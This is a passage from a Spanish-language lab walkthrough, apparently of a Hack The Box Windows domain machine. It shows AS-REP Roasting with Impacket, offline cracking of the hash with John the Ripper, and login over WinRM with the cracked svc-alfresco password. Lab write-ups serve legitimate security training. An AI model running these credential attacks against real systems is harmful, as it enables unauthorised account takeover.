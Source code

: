 Empleamos el siguiente comando para extraer únicamente los usuarios.

```bash
cat userss | tr ':' ' ' | awk {'print $2'} | tr -d '[]' > users.txt
cat users.txt | grep -vE 'SM|Mailbox' > users
```

![imagen](https://github.com/user-attachments/assets/78c23771-cbce-4d09-a099-2e61dd4d477f)

# Explotación

---

### AS-RepRoast attack

Ahora que disponemos de una lista de usuarios de dominio, estamos en posición de llevar a cabo el ataque conocido como "AS-REP Roasting". Para ejecutar este tipo de ataque, es necesario que una cuenta tenga la propiedad "No requerir autenticación previa de Kerberos" o `UF_DONT_REQUIRE_PREAUTH` establecida en "true".

El siguiente paso es solicitar el Ticket Granting Ticket (TGT) cifrado para ese usuario en particular. Dado que el TGT contiene información cifrada utilizando el hash NTLM del usuario, podemos someterlo a un ataque de fuerza bruta offline con el objetivo de intentar obtener la contraseña.

Un script útil para llevar a cabo esta tarea es [GetNPUsers.py](http://getnpusers.py/) de Impacket, que permite solicitar un ticket TGT y volcar el hash correspondiente.

```bash
impacket-GetNPUsers -no-pass -usersfile users htb.local/
```

![imagen](https://github.com/user-attachments/assets/5c04e7b9-20aa-44fd-bdc5-b04f3b699c9d)

Hemos obtenido el hash del usuario `svc-alfresco`. Ahora, procederemos a copiarlo en un archivo y luego intentaremos descifrarlo utilizando la herramienta **JohnTheRipper**.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![imagen](https://github.com/user-attachments/assets/22601a60-e006-435b-ac66-79de2ffeea05)

La contraseña de esta cuenta es `s3rvice`. Dado que el puerto `5985` también está abierto, podemos verificar si este usuario tiene permitido el acceso remoto a través de WinRM utilizando **Evil-WinRM**.

```bash
netexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

![imagen](https://github.com/user-attachments/assets/9c52ff5b-130b-4bf5-ae48-2e70e7d44fc9)

Como se puede observar, el usuario `svc-alfresco` tiene la autorización para el acceso remoto a través de WinRM, por lo que procedemos a iniciar sesión.

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
